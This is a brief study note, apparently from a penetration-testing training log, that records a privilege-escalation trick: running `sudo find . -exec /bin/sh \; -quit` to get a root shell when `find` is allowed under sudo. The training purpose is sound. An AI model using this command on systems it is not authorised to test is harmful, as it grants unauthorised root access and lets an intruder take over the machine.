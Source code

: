# Exploiting "find"

**author**:: Nathan Acks  
**date**:: 2022-04-21

If `find` can be run with `sudo`, then try `sudo find . -exec /bin/sh \; -quit`.

* [2022-04-20 — ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-04-20-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)
